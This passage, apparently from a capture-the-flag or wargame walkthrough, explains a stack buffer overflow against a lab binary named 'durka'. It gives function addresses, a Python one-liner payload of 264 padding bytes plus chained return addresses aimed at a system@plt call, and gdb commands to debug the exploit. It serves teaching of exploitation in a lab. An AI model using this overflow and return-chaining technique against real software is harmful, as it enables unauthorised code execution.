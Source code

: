  <span class="hljs-number">80485</span>bd:       <span class="hljs-number">6</span>a <span class="hljs-number">00</span>                   <span class="hljs-keyword">push</span>   <span class="hljs-variable">$0</span><span class="hljs-keyword">x</span><span class="hljs-number">0</span>
 <span class="hljs-number">80485</span>bf:       e8 <span class="hljs-number">4</span>c fe ff ff          call   <span class="hljs-number">8048410</span> &lt;<span class="hljs-keyword">exit</span><span class="hljs-variable">@plt</span>&gt;
 <span class="hljs-number">80485</span>c4:       <span class="hljs-number">66</span> <span class="hljs-number">90</span>                   xchg   <span class="hljs-variable">%ax</span>,<span class="hljs-variable">%ax</span>
</code></pre>

<p>Let’s write down the several interesting addresses first. <br>
<code>agonistic_heaven : 0x08048590</code> <br>
<code>flugeldufel      : 0x080485b0</code> <br>
<code>call   8048400 &lt;system@plt&gt;: 0x80485b8</code></p>

<p>You may wonder why we don’t want to use the address of the system call <code>system@plt</code> itself. The reason is that <code>bash</code> will ignore any <code>null</code> bytes as argument, so the <code>00</code> byte in address <code>0x08048400</code> will be ignored, and that is a real pain in the ass.</p>
<p>So chain up the return addresses like this: <br>
<code>$(python -c 'print "A"*264+"\x90\x85\x04\x08\xb8\x85\x04\x08"')</code> <br>
And let’s try run this input inside <code>gdb</code> and examine the stack at each function.  <br>
Open up your <code>gdb</code> debugger with <strong>durka</strong>. <br>
<code>user@host:/your-dir$ gdb durka</code> <br>
Don’t forget to clear out the <code>LINES</code> and <code>COLUMNS</code> environment variables, or otherwise your exploit may not work outside the <code>gdb</code>.</p>



<pre class="prettyprint"><code class=" hljs mel">(gdb) unset <span class="hljs-keyword">env</span> LINES
(gdb) unset <span class="hljs-keyword">env</span> COLUMNS
(gdb) show <span class="hljs-keyword">env</span></code></pre>

<p>Set up several break points so we can examine the stack.</p>

<pre class="prettyprint"><code class="language-gdb hljs livecodeserver"> (gdb) b f
Breakpoint <span class="hljs-number">1</span> <span class="hljs-keyword">at</span> <span class="hljs-number">0x8048570</span>: <span class="hljs-built_in">file</span> durka.c, <span class="hljs-built_in">line</span> <span class="hljs-number">11.</span>
(gdb) b agonistic_heaven
Breakpoint <span class="hljs-number">2</span> <span class="hljs-keyword">at</span> <span class="hljs-number">0x8048590</span>: <span class="hljs-built_in">file</span> durka.c, <span class="hljs-built_in">line</span> <span class="hljs-number">17.</span>
(gdb) b flugeldufel
Breakpoint <span class="hljs-number">3</span> <span class="hljs-keyword">at</span> <span class="hljs-number">0x80485b0</span>: <span class="hljs-built_in">file</span> durka.c, <span class="hljs-built_in">line</span> <span class="hljs-number">24.</span></code></pre>

<p>run the program with the designed input:</p>

<pre class="prettyprint"><code class="language-gdb hljs tex">run <span class="hljs-formula">$(python -c 'print "A"*264+"<span class="hljs-command">\x</span>90<span class="hljs-command">\x</span>85<span class="hljs-command">\x</span>04<span class="hljs-command">\x</span>08<span class="hljs-command">\xb</span>8<span class="hljs-command">\x</span>85<span class="hljs-command">\x</span>04<span class="hljs-command">\x</span>08"')
Starting program: /c0re/durka $</span>(python -c 'print "A"*264+"<span class="hljs-command">\x</span>90<span class="hljs-command">\x</span>85<span class="hljs-command">\x</span>04<span class="hljs-command">\x</span>08<span class="hljs-command">\xb</span>8<span class="hljs-command">\x</span>85<span class="hljs-command">\x</span>04<span class="hljs-command">\x</span>08"')
running as uid = 1030, euid = 1030
